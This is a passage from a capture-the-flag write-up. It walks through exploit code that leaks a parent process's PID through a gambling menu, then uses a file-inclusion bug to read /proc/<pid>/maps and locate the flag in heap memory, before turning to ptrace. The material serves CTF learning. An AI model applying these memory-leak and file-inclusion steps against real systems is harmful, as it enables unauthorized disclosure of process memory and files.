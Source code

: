 we can set the breakpoint before the call to `fork()`, and run `set follow-fork-mode child` in GDB which is part of the thread that will eventually spawn the new process. this will enables us to examine the new process memory (i.e. `red40`) and debug our payload.&#x20;

#### Parent Process Memory Leak

since our flag is located inside of the parent's process memory, we obviously need to leak the parent's address heap memory to read. this can be done by:

first leaking the parent's PID by gambling:

```python
# ==================
# GET PARENT PID
# ==================
io.sendlineafter(b'>', b'2')
while(io.recvline().strip()[:7] != b'YOU WON'): # literal gamble
    io.sendlineafter(b'>', b'Y')

io.sendlineafter(b'>', b'1')
io.recvuntil(b'You are now appreciating your ')
PPID = int(io.recvuntil(b' RED40', drop=True))
```

and then leveraging LFI to read its memory mapping:

```python
# ==================
# READ PARENT VMMAP
# ==================
io.sendlineafter(b'>', b'5')
io.sendlineafter(b'>', f'/proc/{PPID}/maps'.encode())

io.recvline()
io.recvlines(5) # remote
heap = int(io.recvuntil(b'-', drop=True), 16)
flag_heap = heap + 0x290 + 0x10 # offset gained through gdb 
```

but then now what?&#x20;

#### Understanding PTRACE

the flag is in the parent's memory but we're interacting with the child's memory, and there's no way for the child to examine or read from another process memory... right?

and so I did a bit of googling using that exact keyword, and found this:

{% embed url="https://stackoverflow.com/questions/2216035/ptraceing-of-parent-process" %}

the example code given in that link somewhat seems very similar to the challenge we're facing. so what exactly is `PTRACE`?

reading from the man page:

{% embed url="https://man7.org/linux/man-pages/man2/ptrace.2.html" %}

> The ptrace() system call provides a means by which one process(the "tracer") may observe and control the execution of another process (the "tracee"), and examine and change the tracee's memory and registers. It is primarily used to implement breakpoint debugging and system call tracing.
